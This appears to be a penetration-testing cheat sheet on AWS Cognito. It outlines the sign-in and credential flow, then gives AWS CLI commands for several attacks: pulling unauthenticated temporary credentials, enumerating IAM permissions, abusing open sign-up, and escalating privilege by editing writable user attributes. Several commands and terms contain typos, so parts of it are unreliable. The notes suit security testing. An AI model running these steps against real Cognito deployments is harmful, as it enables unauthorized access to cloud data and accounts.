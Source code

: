 # AWS Cognito 
- It is used to add user sign-up and sign-in features and control access to web and mobile application
## AWS Components
- User Pool
Allows authentication -> Sign Up , Sign In
- Indentity Pools : Allows authenticated and unauthenticated users to access AWS resources using temporary AWS credentials.

## Cognito Authentication Flow
- User Authenticates By User pool
- User pool Returns 3 JWT Tokens
	1. ID Token 
	1. Access Token 
	1. Reverse Token
- The ID Token Is Passed To Identity Pool
- Identity Pool Generates Temp Credentials For The User According To Permission And Roles That User Owns.
- That Temp Credential is used again to access database, AWS infrastructure accoring to the credential

### Detect Cognito 
- UserPool
```bash
https://cognito-idp.us-west-2.amazonaws.com
https://cognito-idp.us-west.amazonaws.com
```
- Identity Pool
```bash
https://cognito-identity.us-west-2.amazonaws.con
```
## Security Misconfiguration 
#### Unauthorized access to AWS services due to Liberal AWS Credentials
-. Try To Fetch temporary AWS credential using unauthenticated user
-. To Generate AWS credentials find identity Pool id which is usually hardcoded in source code
1. Client ID
1. User Pool ID
1. Region
1. Identity Pool ID
- Use RedJS , Grep , Burp History To Look For keywords like
```bash
aws_cognito_identity_pool_id
identityPoolid
cognitoIdentityPoolId
userPoolWebClientId
userPoolId
aws_user_pools_id
```
- Test For Resource Access
1. Request to user pool for tokens
```bash
 aws cognito-identity get-id --identity-pool-id <identity-pool-id> --region <region>
```
1. Get Credentials from identity pool
```bash
 aws cognito-identity get-credentials-foridentity --identity-id <identity-id> --region <region>
```

1. Enumrate For Permissions
```bash
## enumrate-iam github
## ScoutSuite
./enumrate-iam.py --access-key <accesskey-id> --secret-key <secret-key> --session-token <sessionToken>
```

#### Authentication Bypass due to enabled signup API action
```bash
aws cognito-idp sign-up --client-id <client-id> --username <email> --password <password> --region <region>
```
- Email Verification
```bash
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email> --confirm-code <verification code> --region <region>
```
### Privilege Escalation Due To Writable User Attributes
- Login and obtian Authorization token from header
- user aws client to check writeable attributes
```bash
aws cognito-idp get-user --region <region> --access-token <access-token>
```
- Update Writeable Attributes
```bash
aws cognito-idp update-user-attributes --access-token <acess-token> --region <region> --user-attributes Name="<attribute-name>",Value="<new-value>"
```
### Update email attribute before verification
```bash
aws cognito-idp update-user-attributes --access-token <token> --region <region> --user-attributes Name="email" Value="<new-email-address>"
```
